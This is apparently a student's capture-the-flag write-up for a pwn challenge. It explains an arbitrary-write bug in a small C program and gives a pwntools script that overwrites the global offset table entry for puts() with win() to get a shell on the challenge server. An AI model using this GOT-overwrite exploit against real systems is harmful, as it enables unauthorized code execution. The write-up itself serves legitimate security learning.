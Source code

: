 # Reconnaissance
## C Review
Immediately an interesting part of this program is that an array `target` is declared in the global scope. Then the `main()` function takes user input to define an integer variable `idx` and a long variable `value`. The program accesses the `target` array at index `idx` and writes `value` there. This allows us to write a long to an arbitrary memory address, which is obviously the vulnerability at play here. Next in the program, `puts()` is called to say "bye" and then the process ends.

Initially, I thought that the method for this would be to somehow find the location of these variables on the stack and overwrite the return address of `main()`, but trying at this for a bit was fruitless. Then, by looking at some work from others I learned that you can access the global offset table and change the addresses of functions! So, the objective will be to use target to overwrite the address of `puts()` in the global offset table and replace it with the address for `win()`

# Script
To start testing, we are going to run our script on the ELF we were given for the challenge. We can load it like this:
```{python}
from pwn import *

EXE = ELF("./challenge/chall_7")

context.binary = EXE
context.log_level = "DEBUG"
target_address = EXE.symbols['target']
win_address = EXE.symbols['win']
puts_got = EXE.got['puts']

def conn(useExe=False):
	if useExe:
		# r = gdb.debug(EXE.path, "\n".join(breakpoints))
		r = process([EXE.path])
	else:
		r = remote('pwn.osucyber.club',13378)
	return r

io = conn(False)
```
Here we are doing a couple of things. We are importing the `pwn` library to use as our primary tool for both working on the local file and the challenge server. Then, we use `pwn`'s `ELF` module to put the executable into a variable `EXE`. Then we set up a few things for `pwn`, most importantly `context.log_level = "DEBUG"` because this will give us verbose information about what we send and recieve with `pwn`.

The `conn()` function being set up here simply allows us to minimally change the program to run remotely when we are finished with testing. Calling this function with `True` as a parameter connects to the local installation of the server executable, whose path is written in the definition of the `EXE` variable. Then once our testing is completed, we can call `conn(False)` to make a connection to the remote server.

Next, we connect and craft and send our payload:
```{python}
io = conn(False)

# Create a payload for idx, cakculated by finding the difference in 
# the address of `target` and the entry for `puts` in the global offset
# table in bytes, then dividing that by 8 because `target` is an array
# of longs, which are 8 bytes each.
payload = str((puts_got - target_address)//8).encode()
payload += b'\n'
io.send(payload)

# Create a payload for value
payload = str(win_address).encode()
payload += b'\n'
io.send(payload)
io.interactive()

io.close()
```

If this spawns a terminal, then our code worked! We can run it again on the server then call `ls` and `cat flag.txt` in the interactive shell!